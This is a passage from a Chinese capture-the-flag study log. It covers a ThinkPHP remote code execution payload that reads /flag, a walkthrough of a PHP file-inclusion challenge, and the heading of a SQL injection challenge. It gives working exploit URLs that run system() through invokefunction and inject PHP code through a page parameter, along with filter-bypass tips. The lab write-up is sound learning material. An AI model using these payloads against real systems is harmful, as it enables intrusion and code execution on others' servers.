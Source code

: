 > 4. 查看flag  
> http://192.168.100.161:54064/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat%20/flag

**总结**：奇怪的知识盲区增加了，看来php框架也得学一下；flag文件还有可能在根目录等，最好用find搜索一下  2020.7.16.Thu

---


# 5. Web_php_include

**题目来源**：XTCTF  
**题目描述**：暂无

**WP**:
> **原理**  
> php文件包含
> 
> **目的**  
> 了解如何利用php文件包含
> 
> **环境**  
> Windows
> 
> **工具**  
> chrome
> 
> **步骤**
> 1. 审计php代码,while函数根据page参数来判断php文件是否存在，如果存在此文件，则进行文件包含。
> 2. 默认页面为http://127.0.0.1/index.php,设置为page值，可确保while为真
> 3. 利用hello参数将执行内容显示  
> ```
> http://192.168.100.161:50281/?page=http://127.0.0.1/index.php/?hello=%3C?system(%22ls%22);?%3E
> http://192.168.100.161:50281/?page=http://127.0.0.1/index.php/?hello=%3C?show_source(%22fl4gisisish3r3.php%22);?%3E
> ```


**总结**：
1. 本题中先利用被echo的参数把要执行的PHP代码输出到当前页面上（记得带上```<?php ?>```或```<? ?>```），再用被include的参数来包含当前页面；
2. ```strstr```（判断字符串中是否包含某子串）可用大小写绕过；
3. ```file_get_contents```不行的时候可尝试```show_source```
4. include的url要包含协议
5. 可通过`phpinfo`查看`system`之类的敏感函数是否被禁用  2020.7.31.Fri

---


# 6. supersqli

**题目来源**：强网杯 2019  
**题目描述**：随便注

